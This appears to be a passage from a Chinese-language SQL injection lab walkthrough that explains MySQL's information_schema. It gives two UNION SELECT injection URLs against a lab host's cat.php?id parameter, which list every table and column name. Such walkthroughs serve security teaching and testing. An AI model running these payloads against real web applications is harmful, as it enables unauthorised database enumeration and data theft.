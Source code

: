 * 通过查看information_schema数据库获得更多信息。

在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。

* 获取当前数据库中所有表的名称
```
192.168.56.4/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables 
```

![](images/所有的表名.PNG)

* 获取当前数据库中所有列的名称
```
192.168.56.4/cat.php?id=1 union select 1,column_name,3,4 from information_schema.columns 
```
